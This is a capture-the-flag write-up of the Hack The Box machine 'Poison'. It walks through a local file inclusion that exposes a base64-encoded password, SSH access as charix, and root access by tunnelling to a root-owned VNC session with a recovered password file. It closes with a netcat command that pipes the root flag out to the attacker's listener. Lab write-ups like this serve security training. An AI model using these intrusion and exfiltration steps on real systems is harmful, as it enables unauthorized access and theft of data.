

132 - Poison
============

The website is a simple LFI, first going for the obvious as it is proposed, browse to <http://10.10.10.84/browse.php?file=listfiles.php>, this gives a list of files in the directoryi in the form of a PHP array:
```
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Then one can read the `pwdbackup.txt` file that looks interesting by browsing to <http://10.10.10.84/browse.php?file=pwdbackup.txt> :
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Following the hint, decode this 13 times using base64 to get the password:
```
Charix!2#4%6&8(0
```

This can then be used to ssh into the box with the user `charix` and get the user flag:
```bash
~/D/S/hackthebox.eu ❯❯❯ ssh charix@10.10.10.84
Password for charix@Poison:
[CUT CUT CUT]
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
```

In the home directory there is also a file named `secret.zip`, this is encrypted but can be unzipped with the same password as the one we found previously:
```
~/D/S/hackthebox.eu ❯❯❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
~/D/S/hackthebox.eu ❯❯❯ xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

Let's keep this in mind, we'll need it later.

## Privilege escalation
Once we're on the box, we can look for various stuff, an interesting one is that in the runnning processes Xvnc is appearing 3 times:
```
charix@Poison:~ % ps -aux | grep vnc
root    529   0.0  0.9  23608  9024 v0- S    15:47    0:00.24 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfba
charix  856   0.0  0.8  22692  8076  3  I    15:50    0:00.05 Xvnc :2 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /home/charix/.Xauthority -geometry 1024x768 -depth 24 -rfbwait 12000
charix  908   0.0  0.8  22692  8108  3  I    15:51    0:00.05 Xvnc :3 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /home/charix/.Xauthority -geometry 1024x768 -depth 24 -rfbwait 12000
charix 1066   0.0  0.0    412   328 17  R+   15:58    0:00.00 grep vnc
```

Looking more closely at the service file in `/usr/local/etc/rc.d/vncserver`:
```
charix@Poison:~ % cat /usr/local/etc/rc.d/vncserver
#!/bin/sh

# Download this file
# cd /usr/local/etc/rc.d && fetch <link-to-this-file>
#
# Make the file executable with:
# /usr/local/etc/rc.d/vncserver (chmod +x)
#
# add to /etc/rc.conf
#
# vncserver_enable="YES"
# vncserver_user="vncserver"
# vncserver_display="1"


# PROVIDE: vncserver
# REQUIRE: NETWORKING SERVERS DAEMON ldconfig resolv
#
 
. /etc/rc.subr
 
name=vncserver
rcvar=vncserver_enable
 
VNCSERVER=/usr/local/bin/vncserver
 
load_rc_config $name
 
start_cmd="vncserver_start"
stop_cmd="vncserver_stop"
restart_cmd="vncserver_restart"
 
: ${vncserver_user="root"}
: ${vncserver_enable="NO"}
: ${vncserver_display="1"}
: ${vncserver_depth="24"}
: ${vncserver_geometry="1280x800"}
 
vncserver_start()
{
        CMD="$VNCSERVER -depth ${vncserver_depth} -geometry ${vncserver_geometry} -localhost -nolisten tcp :${vncserver_display}"
        su -l ${vncserver_user} -c "${CMD}"
}
 
vncserver_stop()
{
        CMD="$VNCSERVER -kill :${vncserver_display}"
        su -l ${vncserver_user} -c "${CMD}"
}
 
run_rc_command "$1"
```

We see that it runs as root :) Let's use SSH to tunnel a local port to one of the VNC process that is running currently:
```
~/D/S/hackthebox.eu ❯❯❯ ssh -L 4242:localhost:5901 charix@10.10.10.84
```

In another terminal we can connect using `vncviewer`:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer localhost::4242                                                                   ⏎
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```

But it seems that we need a password... A quick look at the VNC viewer help command shows an option:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer --help                                                                            ⏎
TightVNC Viewer version 1.3.9

Usage: vncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       vncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       vncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       vncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
[CUT CUT CUT]
```

So we could use the secret file we had before:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer localhost::4242 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
[CUT CUT CUT]
```

This is now accepted and we are logged in as root. We can just start a terminal and read the root flag:


Transmitting this through netcat is easy as (on localhost):
```
~/D/S/hackthebox.eu ❯❯❯ nc -lvp 12345
listening on [any] 12345 ...
```

And on the box:
```
% cat root.txt | nc 10.10.14.110 12345
```

To get it back on the localhost:
```
10.10.10.84: inverse host lookup failed: Unknown host
connect to [10.10.14.110] from (UNKNOWN) [10.10.10.84] 60297
716d04b188419cf2bb99d891272361f5
```
